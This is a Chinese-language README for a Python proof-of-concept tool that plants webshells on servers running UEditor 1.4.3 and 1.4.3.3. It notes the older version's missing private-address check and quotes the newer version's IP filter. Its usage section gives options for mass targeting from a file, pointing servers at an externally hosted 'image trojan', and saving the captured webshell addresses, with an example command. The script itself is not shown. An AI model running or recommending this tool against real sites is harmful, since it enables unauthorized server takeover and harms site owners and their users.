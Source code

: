 # 1. ueditorUploadPoc说明
基于python3.9版本开发，目前仅支持1.4.3和1.4.3.3版本webshell上传
+ 1.4.3没有私有地址检测，就是source[]字段，
+ 1.4.3.3会对shell address做检查，如果发现是本地环回地址、10开头地址、192.168、169.等地址都不行
  ~~~aspx
    if (IPAddress.IsLoopback(myIPAddress)) return true;
    if (myIPAddress.AddressFamily == System.Net.Sockets.AddressFamily.InterNetwork)
    {
        byte[] ipBytes = myIPAddress.GetAddressBytes();
        // 10.0.0.0/24 
        if (ipBytes[0] == 10)
        {
            return true;
        }
        // 172.16.0.0/16
        else if (ipBytes[0] == 172 && ipBytes[1] == 16)
        {
            return true;
        }
        // 192.168.0.0/16
        else if (ipBytes[0] == 192 && ipBytes[1] == 168)
        {
            return true;
        }
        // 169.254.0.0/16
        else if (ipBytes[0] == 169 && ipBytes[1] == 254)
        {
            return true;
        }
    }
    ~~~

# 2. 使用
~~~shell
python3.9 ueditor143Poc.py -h
usage: python3.9 [-h help[:options]] [[-q quiet[:options]]] [-t target_url] [-s image_shell]
    -h  help            打印帮助信息，不能与-q同时使用
    -q  quiet           不打印任何信息，不能与-h同时使用
    -t  target_url      目标服务器url地址(如果不指定-f file参数，必须指定该参数)
    -f  target_file     从文件中读取目标服务器地址
    -m  image_shell     指定图片木马的地址(必须指定该参数)
    -o  out_file        将webshell地址保存到指定的文件中

例如：
python3.9 ueditor143Poc.py -f target.txt -m http://x.x.x.x:xxxx/x.jpg -o shell.txt
~~~
